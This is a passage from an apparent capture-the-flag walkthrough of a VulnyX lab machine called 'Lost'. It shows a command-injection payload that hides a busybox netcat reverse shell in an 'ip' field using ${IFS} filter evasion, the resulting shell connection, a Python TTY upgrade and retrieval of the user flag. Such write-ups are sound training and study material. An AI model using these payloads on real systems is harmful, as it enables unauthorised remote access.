![Firefox - Reverse Shell Generator (`https://www.revshells.com/` Bash)](./assets/screenshots/vulnyx_lost_firefox_reverse_shell_generator_bash.png)

```shell
ip=127.0.0.1|busybox${IFS}nc${IFS}192.168.247.128${IFS}1337${IFS}-e${IFS}sh
```

![Burp Suite - Command Injection Attempt 3](./assets/screenshots/vulnyx_lost_command_injection_attempt_3.png)

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.228] 53114

python3 -c 'import pty; pty.spawn("/bin/bash")'

jackshephard@lost:~$
```

```
jackshephard@lost:~$ whoami
jackshephard

jackshephard@lost:~$ cat /home/jackshephard/user.txt
df5ea29924d39c3be8785734f13169c6 🚩
```
